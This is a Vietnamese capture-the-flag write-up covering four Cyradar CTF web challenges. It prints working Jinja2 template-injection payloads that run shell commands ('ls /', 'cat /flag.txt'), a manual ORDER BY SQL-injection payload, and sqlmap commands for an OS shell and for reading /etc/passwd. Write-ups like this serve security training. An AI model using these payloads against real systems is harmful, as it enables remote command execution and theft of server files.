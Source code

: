 ```yaml
---
title: "Writeup Cyradar CTF TTS/CTV [WEB]"
date: "2025-01-05"
excerpt: "Writeup Cyradar CTF TTS/CTV [WEB]"
featured: "/images/cyradar_logo.svg"
---
```


## Bài 1: SSTI

Khi mở web lên có giao diện như sau:

![image](https://hackmd.io/_uploads/S1FPYZO8Je.png)

=> Khả năng có 1 query string là `name`

Cho `name` có giá trị là `{{7*7}}` để test SSTI

=> Xuất hiện 49 => có khả năng bị SSTI

![image](https://hackmd.io/_uploads/ryg0FWOI1g.png)

Test tiếp `name` = `${{<%[%'"}}%\.` để biết xem phía server đang dùng template engine nào

![image](https://hackmd.io/_uploads/B1i3qW_Ikg.png)

=> Jinja2

Sử dụng payload: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}
`

Phát hiện có flag.txt

![image](https://hackmd.io/_uploads/B1iApWdLyg.png)

Đọc flag.txt => `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}`

![image](https://hackmd.io/_uploads/BJeI0bO8kg.png)

Flag: `Hello CyWeb{w3b_3asy_sst1}!`


## Bài 2: SQL Injection

Bài 2 có giao diện như sau:

![image](https://hackmd.io/_uploads/B1HMyfdU1l.png)

Đọc source code => SQL Injection

Khi thử nhập username là `admin' or 1 = 1 -- thì bị thật`

![image](https://hackmd.io/_uploads/rJuvJzOIJg.png)

Tiếp theo sử dụng tool SQLMap để đẩy nhanh tiến độ dump db

Đầu tiên sử dụng Burp Suite vào url bài web, đăng nhập thử, sau đó lấy request đưa vào file `request.txt`

Sau đó sử dụng SQLMap như sau

![image](https://hackmd.io/_uploads/BkUhJGd8kg.png)

![image](https://hackmd.io/_uploads/H1901G_U1e.png)

Thấy được 3 database sau:

![image](https://hackmd.io/_uploads/HkhkeMOUJg.png)

Thử dump database public (`-dbs`)

![image](https://hackmd.io/_uploads/SyNZxzOLkg.png)

Khi dump table users thì không thấy flag (`-D public -T users --dump`)

![image](https://hackmd.io/_uploads/ryHEgzu81x.png)

Xem lại đề bài có vẻ gợi ý RCE

![image](https://hackmd.io/_uploads/HJNYef_I1e.png)

=> Thêm option `--os-shell` để RCE

![image](https://hackmd.io/_uploads/BJC9gfOUye.png)

Sau đó liệt kê thư mục gốc:

![image](https://hackmd.io/_uploads/rk-nlzdUyl.png)

Đọc file `flag.txt`

![image](https://hackmd.io/_uploads/Byr6lfOLkx.png)

Flag: `CyWeb{ThiS_i5_m3d!um5q1!r(3}`

## Bài 3: SSTI

![image](https://hackmd.io/_uploads/HyF5bfOIJl.png)

Server đang reflect lại địa chỉ IP của client.

Thử thêm `X-Forwarded-For` vào gói tin:

![image](https://hackmd.io/_uploads/Byx-GzOI1x.png)

=> Thử địa chỉ localhost nhưng không thấy gì

Thử `{{7*7}}` ra 49

![image](https://hackmd.io/_uploads/SkwVMzu8ke.png)

Tiếp tục 1 số bước như bài 1 => Jinja2 

Và chèn payload sau: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}`

![image](https://hackmd.io/_uploads/ByNifMu8kg.png)

Đọc flag.txt: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}`

![image](https://hackmd.io/_uploads/S1xpfMOLJx.png)

Flag: `CyWeb{m3d!umsst!}`

## Bài 4: SQL Injection

![image](https://hackmd.io/_uploads/S1j8Xf_8kl.png)

Có vẻ giống bài 2 nhưng lần này với query string `order_by`

Sử dụng sqlmap check 1 số database

![image](https://hackmd.io/_uploads/B1QlVGOUJe.png)

=> xem xét db `chh`

**Note**: 1 cách test bằng cơm nếu không dùng sqlmap: `?order_by=(SELECT (CASE WHEN ((SELECT substring(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)='a') THEN 'price' ELSE (SELECT 7066 UNION SELECT 7211) END))
`

Phát hiện table flag

![image](https://hackmd.io/_uploads/HkiWVM_Lyg.png)

![image](https://hackmd.io/_uploads/ryPMEM_81l.png)

Tuy nhiên thì đây là flag fake
Sau đó có thử option `--os-shell` tuy nhiên gặp lỗi (khả năng không upload được file) => Không thể RCE được
Sau khi tìm hiểu thì có phát hiện ra sqlmap có thể đọc được file với `--file-read`

`sqlmap -r request.txt --file-read=/etc/passwd`

Đầu tiên đọc file `/etc/passwd` xem có flag không

![image](https://hackmd.io/_uploads/rkkZHf_L1x.png)

Em nghĩ lại thì flag các bài trước đều được đặt ở /flag.txt 

![image](https://hackmd.io/_uploads/rJVSHf_L1l.png)
![image](https://hackmd.io/_uploads/r1oHHG_UJg.png)

=> Flag: `CyWeb{w3b_h@rd_sql1_0rderby}`